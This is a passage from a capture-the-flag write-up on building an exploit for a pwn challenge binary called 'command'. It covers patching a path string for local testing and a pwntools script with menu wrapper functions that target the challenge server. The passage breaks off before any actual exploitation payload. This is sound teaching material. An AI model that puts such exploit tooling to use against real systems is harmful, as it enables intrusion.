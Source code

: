 Now that we have reversed the binary , let us start writing exploit.

## EXPLOIT DEVELOPMENT

### Setting up the Local Environment

For those of you who dont want another `/commands` folder in your root directory can simply edit the binary using ghex just the way it is done for preloading Libc.

We edit the string **/commands/%lld** in ghex with **./ommands/%lld** and create a folder *ommands* in the PWD.

To make sure that a file with name **./ommands/time(0)** exists in that directory , we can use the **ctypes** python library and get the value of **time(0)** which we can pass to os.system and touch a file with that name to create it.

Here's the script to get things started with all wrapper functions.

```py
from pwn import *
import sys
import ctypes
from ctypes import *
import os

context.arch="amd64"

def setup_env():
    libc = ctypes.cdll.LoadLibrary("./libc.so.6")
    LIBC = ELF("./libc.so.6")
    time = libc.time(0)
    os.system("touch ./ommands/{}".format(time))

if(len(sys.argv)>1):
    io=remote('command.pwn2.win',1337)
    context.noptrace=True
else:
    io=process("./command",env = {"LD_PRELOAD" : "./libc.so.6"})
    setup_env()


def send_name(name):
    io.sendafter('Your name: ',name)

def add(priority,command):
    io.sendlineafter('> ','1')
    io.sendlineafter('Priority: ',str(priority))
    io.sendafter('Command: ',command)

def view(idx):
    io.sendlineafter('> ','2')
    io.sendlineafter('index: ',str(idx))

def free(idx):
    io.sendlineafter('> ','3')
    io.sendlineafter('index: ',str(idx))

def list():
    io.sendlineafter('> ','4')

def ret():
    io.sendlineafter('> ','5')

def send_commands(ID):
    io.sendlineafter('which rbs?\n',str(ID))
```